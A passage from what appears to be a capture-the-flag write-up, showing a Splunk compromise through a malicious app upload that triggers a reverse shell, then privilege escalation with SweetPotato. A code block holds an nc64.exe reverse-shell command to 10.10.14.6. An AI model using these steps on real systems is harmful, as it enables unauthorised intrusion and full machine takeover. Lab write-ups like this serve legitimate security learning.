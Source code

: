 Log in with that password in the main web application service as the admin user 
<br/><br/>
![image.png]({{ '/assets/images/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f_image_38.png' | relative_url }})
<br/><br/>
From here, it is straightforward, find how to exploit a reverse shell in splunk 
<br/><br/>
![image.png]({{ '/assets/images/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f_image_39.png' | relative_url }})
<br/><br/>
Set ip and port in `run.ps1` as we are dealing with a Windows machine 
<br/><br/>
![image.png]({{ '/assets/images/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f_image_40.png' | relative_url }})
<br/><br/>
Follow the instructions in the repository. Compress those files
<br/><br/>
![image.png]({{ '/assets/images/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f_image_41.png' | relative_url }})
<br/><br/>
Then, upload them as an app installation in splunk
<br/><br/>
![image.png]({{ '/assets/images/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f_image_42.png' | relative_url }})
<br/><br/>
It is successfully installed, we only need to enable it to trigger the reverse shell
<br/><br/>
![image.png]({{ '/assets/images/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f_image_43.png' | relative_url }})
<br/><br/>
After obtaining a shell, enumerating Alexander’s privileges we discovered `SeImpersonatePriviele` 
<br/><br/>
![image.png]({{ '/assets/images/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f_image_44.png' | relative_url }})
<br/><br/>
This privilege allow us to use a process to impersonate another user, `SweetPotato` pr `godpotato` are recommended tools for this task
<br/><br/>
```python
.\SweetPotato.exe -a 'type c:\users\administrator\desktop\root.txt'
#Or upload a nc.exe file and execute
.\SweetPotato.exe -a "C:\programdata\nc64.exe 10.10.14.6 444 -e cmd.exe"
```
<br/><br/>
![image.png]({{ '/assets/images/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f_image_45.png' | relative_url }})
<br/><br/>
Machine pwned@!@@!@
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>


<link rel="stylesheet" href="{{ '/assets/css/imagesstyle.css' | relative_url }}">
